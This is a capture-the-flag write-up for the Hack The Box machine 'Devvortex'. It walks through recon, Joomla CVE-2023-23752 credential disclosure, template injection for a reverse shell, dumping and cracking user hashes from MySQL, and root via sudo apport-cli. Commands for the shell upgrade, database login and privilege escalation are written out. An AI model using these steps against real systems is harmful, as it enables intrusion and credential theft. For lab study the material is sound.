

# HTB-devvortex

Started with nmap with really nothing to go off of.

```bash
└─$ nmap -p- -Pn -A -sC  -T4 10.129.57.99 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-29 13:40 EST
Nmap scan report for 10.129.57.99
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.27 seconds
```

While nmap was running, I did some recon of the website and also didn't find much through directory busting.

I decided to take a shot at busting some sub-directories and found **dev.devvortext.htb**.

Then I ran dirsearch and found a login for Joomla

<figure><figcaption></figcaption></figure>

Knowing there was probably a vulnerability, I needed to find which version this was. I used a tool called joom scan to find out.

<figure><figcaption></figcaption></figure>

Version 4.2.6 has CVE-2023-23752 associated with it. I was able to exploit it and get my first set of credentials.

<figure><figcaption></figcaption></figure>

I went for an SSH session but had no luck. I then tried them on the login page and was able to login

<figure><figcaption></figcaption></figure>

I did some more poking around and found another user, Logan.

<figure><figcaption></figcaption></figure>

More poking around led to me being able to inject code into a template. I injected a small bash script.

<figure><figcaption></figcaption></figure>

I then fired up netcat, and navigated over to the url that was being updated and got my shell.

<figure><figcaption></figcaption></figure>

Since Logan is a registered user on our Joomla panel, their password should be in the MySQL database where we got our earlier credentials.

Before running MySQL to connect to the database, let’s spawn the pseudo-terminal utilities using Python (this will help us with all the interactions required with MySQL).

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

then

```bash
mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
```

While navigating through the tables, we’ve come across the “sd4fg\_users” table. Let’s select all the records from it and dump its contents.

<pre class="language-bash"><code class="lang-bash"><strong>select * from sd4fg_users;
</strong></code></pre>

<figure><figcaption></figcaption></figure>

We grab Logan's hash, and crack it with John the Ripper.

<figure><figcaption></figcaption></figure>

Then we log in and grab our first flag.

<figure><figcaption></figcaption></figure>

Once log in, I run `sudo -l` to check my privileges.

I have sudo with the apport-cli utility.

A vulnerability exists in version 2.26.0 and earlier.

I find the crash report I need in /bin/mysql less, and run my command to get root.

```bash
sudo apport-cli -c /bin/mysql less
```

<figure><figcaption></figcaption></figure>
